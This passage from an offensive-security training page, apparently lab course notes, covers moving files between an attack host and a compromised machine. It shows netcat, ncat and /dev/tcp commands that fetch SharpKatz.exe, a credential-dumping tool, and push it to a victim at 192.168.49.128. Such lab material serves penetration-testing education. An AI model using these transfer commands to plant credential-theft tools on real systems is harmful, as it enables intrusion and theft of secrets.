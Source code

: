 ### **Ncat - Attack Host - Sending File to Compromised machine**

```
th1nyunb0y@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exeth1nyunb0y@htb[/htb]$ # Example using Ncat
th1nyunb0y@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat.

### **Attack Host - Sending File as Input to Netcat**

```
th1nyunb0y@htb[/htb]$ # Example using Original Netcat
th1nyunb0y@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### **Compromised Machine Connect to Netcat to Receive the File**

```
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Let's do the same with Ncat:

### **Attack Host - Sending File as Input to Ncat**

```
th1nyunb0y@htb[/htb]$ # Example using Ncat
th1nyunb0y@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### **Compromised Machine Connect to Ncat to Receive the File**

```
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

### **NetCat - Sending File as Input to Netcat**

```
th1nyunb0y@htb[/htb]$ # Example using Original Netcat
th1nyunb0y@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
